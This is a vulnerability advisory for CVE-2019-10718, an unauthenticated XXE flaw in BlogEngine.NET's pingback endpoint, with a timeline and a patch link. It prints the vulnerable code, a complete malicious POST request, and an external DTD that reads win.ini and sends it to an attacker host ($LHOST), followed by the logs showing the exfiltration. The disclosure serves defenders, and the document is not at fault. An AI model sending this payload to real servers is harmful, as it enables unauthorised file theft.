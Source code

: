 An Out-of-band XML External Entity attack, CVE-2019-10718, exists on BlogEngine.NET versions 3.3.7 and earlier through the `/pingback.axd` endpoint.  This issue can be exploited to reveal the contents of files on the host. Authentication is not required.

## Vendor Patch

* https://github.com/rxtur/BlogEngine.NET/releases

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 18 Jun 2019

## Description

The vulnerable code can be found here:

~~~{.cs command="PingbackHandler.cs"}
331:        private static XmlDocument RetrieveXmlDocument(HttpContext context)
332:        {
333:            var xml = ParseRequest(context);
334:            if (!xml.Contains("<methodName>pingback.ping</methodName>"))
335:            {
336:                context.Response.StatusCode = 404;
337:                context.Response.End();
338:            }
339:
340:            var doc = new XmlDocument();
341:            doc.LoadXml(xml);
342:            return doc;
343:        }
~~~

The string `<methodName>pingback.ping</methodName>` must appear in the body of the request; the XML resolver is not set so External Entities can be processed.

An unauthenticated user can submit a `POST` containing a malicious XML body such as:

~~~
POST /pingback.axd HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 134

<?xml version="1.0"?>
    <!DOCTYPE foo SYSTEM "http://$LHOST/ex.dtd">
    <foo>&e1;</foo>
<methodName>pingback.ping</methodName>
~~~

<pagebreak></pagebreak>

The malicious XML instructs the parser to request a DTD (document type definition) from an external host:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /ex.dtd HTTP/1.1" 200 326 "-" "-"
~~~

The external DTD is then parsed and instructs the application to read a local file:

~~~{command="ex.dtd"}
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://$LHOST/EX?%p1;'>">
%p2;
~~~

The contents of the local file, `C:/WINDOWS/win.ini` in the example, are then sent in a subsequent request to the attacker:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /EX?;%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1%0D%0A[MCI%20Extensions.BAK]%0D%0A3g2=MPEGVideo%0D%0A3gp=MPEGVideo%0D%0A3gp2=MPEGVideo%0D%0A3gpp=MPEGVideo%0D%0Aaac=MPEGVideo%0D%0Aadt=MPEGVideo%0D%0Aadts=MPEGVideo%0D%0Am2t=MPEGVideo%0D%0Am2ts=MPEGVideo%0D%0Am2v=MPEGVideo%0D%0Am4a=MPEGVideo%0D%0Am4v=MPEGVideo%0D%0Amod=MPEGVideo%0D%0Amov=MPEGVideo%0D%0Amp4=MPEGVideo%0D%0Amp4v=MPEGVideo%0D%0Amts=MPEGVideo%0D%0Ats=MPEGVideo%0D%0Atts=MPEGVideo HTTP/1.1" 404 438 "-" "-"
~~~

## Exploit

* <https://github.com/irbishop/CVEs/blob/master/2019-10718/exploit.py> 

Requests the contents of specified files (or `C:/Windows/win.ini` by default). It then writes the files to the current folder:

~~~{command="C_Windows_win.ini"}
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
~~~

